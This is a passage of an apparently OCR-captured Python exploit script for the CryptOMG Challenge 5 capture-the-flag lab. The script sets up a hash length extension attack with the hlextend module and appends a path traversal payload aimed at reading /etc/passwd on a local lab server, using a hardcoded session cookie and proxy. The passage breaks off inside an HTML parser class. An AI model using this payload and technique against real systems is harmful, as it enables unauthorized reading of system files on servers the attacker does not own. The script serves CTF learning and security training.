 ### Python code——alternative to hash_extender  
 ```
 #!/usr/bin/env python
 # Brute forcing script to solve CryptOMG Challenge 5 using hlextend Hash Length Extension Python module
 from urllib.parse import quote
 import requests
 import socket
 import sys
 import time
 from html.parser import HTMLParser
 import hlextend


 site ='http://192.168.56.101:8083/ctf/challenge5/index.php' 
 hashAlg = 'sha1'
 startHash = 'dd03bd22af3a4a0253a66621bcb80631556b100e'
 fileName = 'test'

 appendData = '../../../../../../../../../../../../../../etc/passwd'
 params = { 'algo' : hashAlg }

 cookies = { 'PHPSESSID' : 'gs6mfb7t83jn77nbehcs8rmgi3' }  
 proxies = { 'http' : 'http://127.0.0.1:8080',  'https' : 'https://127.0.0.1:8080' } 

 try:
     proxies
 except:
     proxies = {}

 try:
     cookies
 except:
     cookies = {}

 reqsettings = { 'proxies' : proxies, 'stream' : False, 'timeout' : 5, 'verify' : False, 'cookies' : cookies }

class HParser(HTMLParser):
    '''HTML parser to extract from div:content and h1 tags'''

    def __init__(self):
        HTMLParser.__init__(self)
        global inHtag
        global inDtag
        self.outData = ''
        self.divData = ''
        inHtag = False
        inDtag = False


    def handle_starttag(self, tag, attrs):
        global inHtag
        global inDtag

        if tag == 'h1':
            inHtag = True
        elif tag == 'div':
            if (self.get_starttag_text().find('content') > -1):
                inDtag = True
    
    def handle_endtag(self, tag):
        global inHtag
 ```